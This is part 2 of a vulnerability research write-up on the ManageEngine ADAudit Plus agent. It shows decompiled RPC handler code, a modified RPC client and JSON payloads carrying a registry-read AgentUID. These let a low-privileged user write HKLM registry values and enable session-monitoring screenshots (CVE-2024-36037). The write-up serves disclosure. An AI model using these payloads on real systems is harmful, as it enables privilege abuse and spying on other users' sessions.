Reverse engineering ADAPAgent.exe
So if you followed the part 1 of this research we got a fully working RPC client to interact with the ADAudit Agent. Nice.
We still have alot to accomplish to reach some kind of goal:
- Create a valid IDL structure
- Brew a large can of coffee
- Build a RPC client
- Guess a lot
- Create input data that will be marshalled into a valid stub that server will act on.
When testing the custom adauditrpc-client from different authentication
context’s it was determined that only Domain Users permission was needed
to connect to the RPC interface over the network. The reason
for this is because the ADAudit Agent RPC server is configured with a ncacn_np
interface. And this interface requires binding of the named pipe over SMB in
order to negotiate which port the forthcoming network communication
should rely on. And because Domain Users by default can communication with
SMB on adjacent servers and computers, this satisfies the RPC authentication part
of ManageEngine’s ADAuditAgent.
Apart from this, there are no additional access control lists applied to the named pipe:

If the custom adauditrpc-client is executed on the local host in
a low-privileged session “no” authentication is required as
Windows automatically forwards the current authenticated session.
For the last steps on our to do-list we need to dig a bit deeper:
- Create input data that will be marshalled into a valid stub that the server will act on.
Now we need to figure out which input data we can send and how the AD Audit Agent will behave based on the various input. Luckily we can turn to logs on the target machine and hopefully find more information how this agent works.
After searching through all files on the target Windows machine at
C:\Program Files\ManageEngine\ADAuditPlusAgent\
we can observe that running the RPC client generates a log entry similar
to this:
> Get-Content 'C:\Program Files\ManageEngine\ADAuditPlusAgent\Logs\MessengerLog_2023_12_01.txt' -Tail 1
[2023-12-01 18:47:17,663] [9][INFO ][Messenger] : Change Notification from ADAP Server, ID : 0
So now we know that we trigger some kind of Change Notification.
We also know from the RpcView.exe output that the RPC named pipe is
exposed via a binary called ADAPAgent.exe.
By running the following PowerShell command we determine that the binary is a .NET assembly:
> [System.Reflection.AssemblyName]::GetAssemblyName('C:\Program Files\ManageEngine\ADAuditPlusAgent\bin\ADAPAgent.exe')
Version Name
------- ----
6.0.0.0 ADAPAgent
Now we are riding on a shrimp sandwitch (thanks for the Swedish translation @fransrosen :) ). .NET assemblies can much like Jar-files be decompiled into human readable code. This means that we won’t need to dig into low-level language such as assembly, pseudo code or similar.
After downloading and extracting dnSpy we open
ADAPAgent.exe and start our investigation.
Quite quickly we notice the RPCHandler class with the NotifyAgent function.

Comparing this disassembled function from ADAPAgent.exe with our IDL
structure, we can assume the following:


- Guess a lot
As seen in the code from the NotifyAgent function it was quite
boring:
private static int NotifyAgent(int notifyId)
{
Logger.Msgr.InfoFormat("Change Notification from ADAP Server, ID : {0}", notifyId);
return 0;
}
It only logs the parameter notifyId.
Looking into the next function however, NofifyAgentStr contains alot
more interesting functionality:
// Agent.RPC.RPCHandler
// Token: 0x06000129 RID: 297 RVA: 0x00008D04 File Offset: 0x00006F04
private static int NotifyAgentStr(int notifyId, string msgStr)
{
int errStatus = 1;
try
{
Hashtable msgMap = JsonAPI.JsonToHashtable(msgStr);
if (msgMap.ContainsKey("AgentUID") && DataStore.Get("AgentUID").ToString().Equals(msgMap["AgentUID"].ToString()))
{
errStatus = 0;
JObject json = JObject.Parse(msgStr);
json.Remove("AgentUID");
json.Remove("ADAP_SERVER_DNS_NAME");
string jsonMsgStr = JsonAPI.ObjectToJsonString(json);
switch (notifyId)
{
case 0:
DataStore.Update(jsonMsgStr);
goto IL_24F;
case 1:
if (!ExcludeConfManager.getInstance.UpdateConf(jsonMsgStr))
{
Logger.Config.InfoFormat("Exclude configuration updation failed \n{0}", msgStr);
goto IL_24F;
}
goto IL_24F;
case 2:
{
bool flag = ScheduleManager.updateSceduleConf(jsonMsgStr);
RPCHandler.isScheduleXmlUpdated = false;
if (flag)
{
RPCHandler.isScheduleXmlUpdated = true;
goto IL_24F;
}
Logger.Config.InfoFormat("Schedule configuration updation failed \n{0} ", msgStr);
goto IL_24F;
}
case 3:
if (!EventParserManager.getInstance.UpdateConf(jsonMsgStr))
{
Logger.Config.InfoFormat("Parser configuration updation failed \n{0} ", msgStr);
goto IL_24F;
}
goto IL_24F;
case 4:
Logger.Config.InfoFormat("Protocol Configuration is (From ADAP server) : \n{0}", msgStr);
DataStore.Update(jsonMsgStr);
goto IL_24F;
case 7:
new Thread(delegate()
{
DataStore.SendTestPacket();
}).Start();
Logger.Config.InfoFormat("Test pockets send to ADAP server thread started", new object[0]);
goto IL_24F;
case 8:
{
bool enableDebug = false;
if (msgMap.ContainsKey("ENABLE_DEBUG"))
{
enableDebug = (bool)msgMap["ENABLE_DEBUG"];
}
Logger.enableDisableDebugLevel(enableDebug);
goto IL_24F;
}
case 9:
DataStore.Update(jsonMsgStr);
goto IL_24F;
case 10:
Logger.Event.InfoFormat("Request from ADAP server to run schedule immediately", new object[0]);
new Scheduler().runEventScheduler();
goto IL_24F;
case 11:
{
JArray shareArray = json["SHARES"] as JArray;
new Thread(delegate()
{
ShareFinalPathName.getFinalPathName(shareArray);
}).Start();
goto IL_24F;
}
}
Logger.Msgr.ErrorFormat("NotifyAgentStr :: Invalid notification Id : \n{0}", notifyId);
}
else
{
Logger.Msgr.ErrorFormat("synced from unknown server : ServerName :: {0}", msgMap["ADAP_SERVER_DNS_NAME"]);
}
IL_24F:;
}
catch (Exception ex)
{
Logger.Msgr.ErrorFormat("EXCEPTION :: RPCHandler.NotifyAgentStr : {0}", ex);
errStatus = 1;
}
return errStatus;
}
Lets see if the private static int NotifyAgentStr(int notifyId, string msgStr)
maps to either Proc1 or Proc2 in our IDL:

Proc1 requires a long (integer) as arg_0. Check
Proc1 requires a wchar_t (string) as arg_1. Check
Oh yes. Proc1 is likely mapped to the NotifyAgentStr function in ADAP.exe
Lets update the custom adauditrpc-client created in part 1:
- long arg_0 = 0;
- long arg1_pointer;
- long* arg_1 = &arg1_pointer;
- RpcTryExcept
- {
- Proc0(DefaultIfName_v1_0_c_ifspec, arg_0, arg_1);
- }
+ long arg_0 = 0;
+ wchar_t arg_1[] = L"snus";
+ long arg2_pointer;
+ long* arg_2 = &arg2_pointer;
+ RpcTryExcept
+ {
+ Proc1(DefaultIfName_v1_0_c_ifspec, arg_0, arg_1, arg_2);
+ }
Rebuild the solution and the execute the binary and check the logs. Boom.
We are in the NotifyAgentStr.
> Get-Content 'C:\Program Files\ManageEngine\ADAuditPlusAgent\Logs\MessengerLog_2023_12_01.txt' -Tail 10
[2023-12-01 19:41:03,834] [11][INFO ][Messenger] : NATV.FA_NotifyAgentStr :: notification from ADAP server, notifyId : 0
[2023-12-01 19:41:03,849] [11][ERROR][Messenger] : EXCEPTION :: RPCHandler.NotifyAgentStr : Newtonsoft.Json.JsonReaderException: Unexpected character encountered while parsing value: s. Path '', line 0, position 0.
at Newtonsoft.Json.JsonTextReader.ParseValue()
at Newtonsoft.Json.JsonTextReader.Read()
at Newtonsoft.Json.Serialization.JsonSerializerInternalReader.ReadForType(JsonReader reader, JsonContract contract, Boolean hasConverter)
at Newtonsoft.Json.Serialization.JsonSerializerInternalReader.Deserialize(JsonReader reader, Type objectType, Boolean checkAdditionalContent)
at Newtonsoft.Json.JsonSerializer.DeserializeInternal(JsonReader reader, Type objectType)
at Newtonsoft.Json.JsonConvert.DeserializeObject(String value, Type type, JsonSerializerSettings settings)
at Newtonsoft.Json.JsonConvert.DeserializeObject[T](String value, JsonSerializerSettings settings)
at Agent.RPC.RPCHandler.NotifyAgentStr(Int32 notifyId, String msgStr) in d:\Webhost\30-12-2021\WindowsBuilds\ADAUDITPLUS_GIT\4649300\ftpagent64\ADAP_SRC\source\agent\core\ADAPAgent\ADAPAgent\RPC\RPCHandler.cs:line 118
The result is a JSON parsing error meaning that the agent is probably expecting
JSON input. What we also notice from the agent code is that we have an if statement
(line 2) that compares a JSON key named AgentUID with a value fetched by DataStore.Get().
Hashtable msgMap = JsonAPI.JsonToHashtable(msgStr);
if (msgMap.ContainsKey("AgentUID") && DataStore.Get("AgentUID").ToString().Equals(msgMap["AgentUID"].ToString()))
{
errStatus = 0;
JObject json = JObject.Parse(msgStr);
json.Remove("AgentUID");
json.Remove("ADAP_SERVER_DNS_NAME");
string jsonMsgStr = JsonAPI.ObjectToJsonString(json);
switch (notifyId)
{
case 0:
DataStore.Update(jsonMsgStr);
goto IL_24F;
[...]
The DataStore.Get() seems to fetch data from the Windows Registry:

At this location in the Windows registry the AgentUID is stored:

What this information tells us is that we cannot successfully communicate with the
ADAudit Agent over the network as we do not know the AgentUID. If we fail to match the AgentUID
we fall into to else statement which skips over all the fun cases:
else
{
Logger.Msgr.ErrorFormat("synced from unknown server : ServerName :: {0}", msgMap["ADAP_SERVER_DNS_NAME"]);
}
However, we are allowed to read registry item from a low-privileged session on the machine, meaning that we still can turn this something that we have into a local attack.
> (Get-ItemProperty -Path "HKLM:\SOFTWARE\ManageEngine\ADAP" -Name AgentUID).AgentUID
1699964702085
Lets see if case 0: is reachable if a correct AgentUID is provided:
- long arg_0 = 0;
- wchar_t arg_1[] = L"snus";
- long arg2_pointer;
+ long arg_0 = 0;
+ wchar_t arg_1[] = L"{\"AgentUID\":\"1699964702085\",\"snus\":\"true\"}";
+ long arg2_pointer;
Build, execute, check the logs:
> Get-Content 'C:\Program Files\ManageEngine\ADAuditPlusAgent\Logs\MessengerLog_2023_12_01.txt' -Tail 1
[10][INFO ][Messenger] : NATV.FA_NotifyAgentStr :: notification from ADAP server, notifyId : 0
...
Look successful. But what happened? Search through all logs..
> Get-ChildItem 'C:\Program Files\ManageEngine\ADAuditPlusAgent\Logs\*' | Select-String snus
AgentLog_2023_12_01.txt:103:[2023-12-01 20:14:55,884] [10][INFO ][Default] : Set Registry Key: HKEY_LOCAL_MACHINE\SOFTWARE\ManageEngine\ADAP\snus = true
...
Now we are getting somewhere. We have the ability to write arbitrary registry
entries in the HKEY_LOCAL_MACHINE\SOFTWARE\ManageEngine\ADAP location which
should only be writable by high-privileged users. And we can do this
from a local low-privileged user. Very nice.

<insert celebration dance and get more coffee>
- Create a valid IDL structure
- Brew a large can of coffee
- Build a RPC client
- Guess a lot
- Create input data that will be marshalled into a valid stub that server will act on.
The last step is now completed on the initial to do-list. But more reversing
is needed to reach our en goal. Remember the SessionMonitoring feature which
was the targetted functionality?
SessionMonitoring seems to be enabled by the registry item SMStatus in
HKEY_LOCAL_MACHINE\SOFTWARE\ManageEngine\ADAP\SessionMonitoring

By reviewing the decompiled code of the ADAPAgent.exe function DataStore
we notice that if we input SMData as a JSON key we can reach
DataStore.UpdateSMDetails which looks promising.


Let’s update our custom ADAuditAgentRPC client POC with a nested JSON object such as:
{
"AgentUID":"1699964702085",
"SMData":{
"SMStatus":"True"
}
}
- wchar_t arg_1[] = L"{\"AgentUID\":\"1699964702085\",\"snus\":\"true\"}";
+ wchar_t arg_1[] = L"{\"AgentUID\":\"1699964702085\",\"SMData\":{\"SMStatus\":\"True\"}}";
Build, execute, check the logs:
> Get-Content 'C:\Program Files\ManageEngine\ADAuditPlusAgent\Logs\AgentLog_2023_12_02.txt' | Select-String SMSTatus
[2023-12-02 10:28:29,988] [9][INFO ][Default] : Set Registry Key: HKEY_LOCAL_MACHINE\SOFTWARE\ManageEngine\ADAP\SessionMonitoring\SMStatus = True
...
Great success!
Summary
So what we actually managed to do is to enable the SessionMonitoring feature from a local
low privileged user. When this feature is enabled and when a user logs
into the machine screenshots will be taken
with 1 seconds interval and stored in the directory C:\ProgramData\ManageEngine\ADAuditPlus Agent\SessionMonitoring. This directory is readable by all local users and enables an attacker
to monitor other sessions.
In addition all configuration parameter stored in the registry at
HKEY_LOCAL_MACHINE\SOFTWARE\ManageEngine\ADAP is under the attackers control.
POC:
The permissive folder permission allowing all users to view the screenshots was assigned CVE-2024-36037 and was fixed in Build 7270 (Dec 29, 2023)
Fixes
A few changes focused on hardening the security of agent data have been implemented.
However, one crucial part regarding the ADAudit Agent RPC client was overseen. Remember the first sentence in part 1:
“The objective when this research started was actually to find a new way to leverage an old CVE”
… We are not using the latest version.
Continue reading part 3 to find out which mitigation that was already in place, preventing exploitation of the RPC security issue, and how it was bypassed.
Or if you missed part 1: https://www.shelltrail.com/research/manageengine-adaudit-reverse-engineering-windows-rpc-to-find-cve-2024-36036-and-cve-2024-36037-part1/